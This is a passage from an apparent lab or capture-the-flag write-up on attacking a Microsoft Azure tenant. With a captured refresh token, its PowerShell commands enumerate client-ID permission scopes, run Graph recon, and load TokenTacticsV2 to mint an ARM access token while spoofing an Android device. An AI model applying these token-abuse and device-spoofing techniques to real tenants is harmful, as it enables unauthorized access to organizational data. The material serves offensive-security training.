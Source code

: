 We can use the `Invoke-BruteClientIDAccess` cmdlet to return interesting (non-default) permissions. In this case we don't see anything interesting
```
└─PS> Invoke-BruteClientIDAccess -domain megabigtech.com -refreshToken $tokens.refresh_token
App: Office 365 Management ClientID: 00b41c95-dab0-4487-9791-b9d2c32c80f2 has scope of: Contacts.Read Contacts.ReadWrite Directory.AccessAsUser.All Mail.ReadWrite Mail.ReadWrite.All People.Read People.ReadWrite Tasks.ReadWrite User.ReadWrite User.ReadWrite.All
App: Microsoft Azure CLI ClientID: 04b07795-8ddb-461a-bbee-02f9e1bf7b46 has scope of: Application.ReadWrite.All AppRoleAssignment.ReadWrite.All AuditLog.Read.All DelegatedPermissionGrant.ReadWrite.All Directory.AccessAsUser.All Group.ReadWrite.All User.Read.All User.ReadWrite.All
App: Office UWP PWA ClientID: 0ec893e0-5785-4de6-99da-4ed124e5296c has scope of: Contacts.Read Family.Read Files.ReadWrite.All FileStorageContainer.Selected GroupMember.Read.All InformationProtectionPolicy.Read Notes.Create Notes.ReadWrite.All Organization.Read.All People.Read SensitivityLabel.Read Tasks.ReadWrite User.Read User.ReadBasic.All
App: Microsoft Docs ClientID: 18fbca16-2224-45f6-85b0-f7bf2b39b3f3 has scope of: Contacts.Read Family.Read Files.ReadWrite.All FileStorageContainer.Selected GroupMember.Read.All InformationProtectionPolicy.Read Notes.Create Notes.ReadWrite.All Organization.Read.All People.Read SensitivityLabel.Read Tasks.ReadWrite User.Read User.ReadBasic.All
App: Microsoft Azure PowerShell ClientID: 1950a258-227b-4e31-a9cf-717495945fc2 has scope of: Application.ReadWrite.All AppRoleAssignment.ReadWrite.All AuditLog.Read.All DelegatedPermissionGrant.ReadWrite.All Directory.AccessAsUser.All Group.ReadWrite.All User.Read.All  
<SNIP>
```

We can perform recon of the Tenant ID, but we don't find anything interesting here too
```
└─PS> Invoke-GraphRecon -Tokens $tokens
[*] Using the provided access tokens.
<SNIP>
Authorization Policy Info
================================================================================
Allowed to create app registrations (Default User Role Permissions): False                                                                                                                                                                  
Allowed to create security groups (Default User Role Permissions): False
Allowed to create tenants (Default User Role Permissions): False
Allowed to read Bitlocker keys for own device (Default User Role Permissions): True
Allowed to read other users (Default User Role Permissions): True
Who can invite external users to the organization: adminsAndGuestInviters
Users can sign up for email based subscriptions: True
Users can use the Self-Serve Password Reset: True
Users can join the tenant by email validation: False
Users can consent to risky apps: 
Block MSOL PowerShell: False
Guest User Role Template ID: 10dae51f-b6af-4016-8d66-8c2a99b929b3
Guest User Policy: Guest users have limited access to properties and memberships of directory objects
================================================================================
```

We can instead turn our attention to the resource-centric Azure Resource Manager API. A great thing about refresh tokens is that we can use them to request new access tokens for different Microsoft API endpoints, not just the original API endpoint. We can use [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2) Azure JSON Web Token ("JWT") Manipulation Toolset 
```
└─PS> Import-Module ~/tools/cloud/azure/TokenTacticsV2/TokenTactics.psm1
  ______      __                 __             __  _                     ___ 
 /_  __/___  / /_____  ____     / /_____ ______/ /_(_)_________   _   __ |__ \
  / / / __ \/ //_/ _ \/ __ \   / __/ __ `/ ___/ __/ / ___/ ___/  | | / / __/ /
 / / / /_/ / ,< /  __/ / / /  / /_/ /_/ / /__/ /_/ / /__(__  )   | |/ / / __/
/_/  \____/_/|_|\___/_/ /_/   \__/\__,_/\___/\__/_/\___/____/    |___(_)____/  
```
TokenTacticsV2 also allows us to specify the device and so we can again pretend to be an Android device, and successfully get an access token for the ARM API.
```
```